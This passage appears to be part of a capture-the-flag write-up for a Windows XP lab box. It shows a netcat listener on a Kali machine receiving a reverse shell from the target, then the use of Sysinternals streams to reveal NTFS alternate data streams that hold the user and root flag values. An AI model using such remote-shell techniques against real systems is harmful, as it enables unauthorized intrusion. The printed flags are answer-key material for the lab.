Sent 1383 bytes in 0.7 seconds
```

```sh
root@kali:~/dropzone# nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.90.
Ncat: Connection from 10.10.10.90:1990.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd \
cd \

C:\>cd Docume~1\Administrator\Desktop\flags
cd Docume~1\Administrator\Desktop\flags

C:\DOCUME~1\Administrator\Desktop\flags>streams -accepteula
streams -accepteula

streams v1.60 - Reveal NTFS alternate streams.
Copyright (C) 2005-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

usage: streams [-s] [-d] <file or directory>
-s     Recurse subdirectories
-d     Delete streams
-nobanner
       Do not display the startup banner and copyright message.


C:\DOCUME~1\Administrator\Desktop\flags>streams 2*
streams 2*

streams v1.60 - Reveal NTFS alternate streams.
Copyright (C) 2005-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\DOCUME~1\Administrator\Desktop\flags\2 for the price of 1!.txt:
   :root_txt_3316ffe05fada8f8e651931a5c45edab:$DATA	5
   :user_txt_a6a4830ddd27a1bddd59d2aaa80f7940:$DATA	5

C:\DOCUME~1\Administrator\Desktop\flags>
root@kali:~/dropzone#
```